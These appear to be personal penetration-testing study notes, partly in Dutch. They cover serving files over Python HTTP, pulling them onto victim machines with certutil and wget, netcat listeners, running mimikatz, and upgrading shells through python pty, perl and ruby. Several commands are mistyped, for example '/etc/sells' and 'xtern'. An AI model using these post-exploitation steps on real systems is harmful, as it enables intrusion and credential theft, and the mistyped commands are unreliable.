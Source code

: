 ## Transferring Files

#####  set up webserver with python
Two step approach where you need to host the files you want to transfer on a web server (1) and download the files hosted on the web server to the target system (2). 

**SimpleHTTPServer = python2
http.server = python3** 

- copy file: `cp path/file.exe .` 
- set up http server: 
	- with python2: `python -m SimpleHTTPServer port`
	- with python 3: `python3 -m http.server port`


##### Transfer to windows targets

- exploit vulnerability with searchsploit
- read comments in exploit file 
- start http server in correct location where file is stored: 
- set up netcat listener 
- simple command shell session is established (if it did not work run again )
transfer file to target system in `tmp` directory 
- ./mimikatz.exe is to execute the file

Downloading without python http-server
- in a command shell, download file: `certutil -urlcache -f http://adres_webserver_ip/filename_downloading.exe file_savingname.exe`


##### Transfer to linux targets 



- tmux (multiple terminal sessions in 1)
	- new: control + B + C 
	- *  is waar je nu active in bent 
	- new: control + B + 0 
	- control + pijltjes om te scrollen 
	- to get a list of all commands: `Ctrl+b` `?` 
	- detach from the Tmux session and return to your normal shell by typing: `Ctrl+b` `d
	-  `Ctrl+b` `c` Create a new window (with shell)
	- `Ctrl+b` `w` Choose window from a list
	- `Ctrl+b` `0` Switch to window 0 (by number )
	- `Ctrl+b` `,` Rename the current window
	- `Ctrl+b` `%` Split current pane horizontally into two panes
	- `Ctrl+b` `"` Split current pane vertically into two panes
	- `Ctrl+b` `o` Go to the next pane
	- `Ctrl+b` `;` Toggle between the current and previous pane
	- `Ctrl+b` `x` Close the current pane
	- `q` om te kunnen typen 


/samba/is_known_pipename
- `/bin/bash -i `
- `cat /etc/*release`

transfer file to victim 
- `control+b c `
- set up python file server in the right path: `python3 -m http.server 80` 
- Download file `wget http://adres_webserver/filename.exe ` 





## Shells 

##### Upgrading non-interactive shells 

Non interactive shell is a shell without a prompt ![[Pasted image 20230920164420.png]]

**How to get interactive shell**

Method 1
- list shells installed don system: `etc /etc/sells 
	- use any of the shells and add `-i `
	  
Method 2 getting interactive shell with programming languages 
- version of python is installed: `python version`
	- `python -c 'import pty; pty.spawn("/bin/bash")' `
- perl
	- `perl help `
	- `perl: exec "/bin/bash";
- ruby
	- `ruby: exec "bin/bash"`


Method: 3 getting interactive shell 
Get interactive shell through:
- Enter the following command to set the PATH environment variable, which tells the system where to find executable files: `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr:/bin:sbin:/bin `
- This will display a list of environment variables, including the one you just set. `env` 
- This command specifies the terminal type you'll be using in your shell session. `export TERM=xtern`
- This command sets your default shell to Bash. `export SHELL=bash` 
- to view the contents of the current directory with additional details (including file sizes and permissions), use the following command:  `ls -alps`
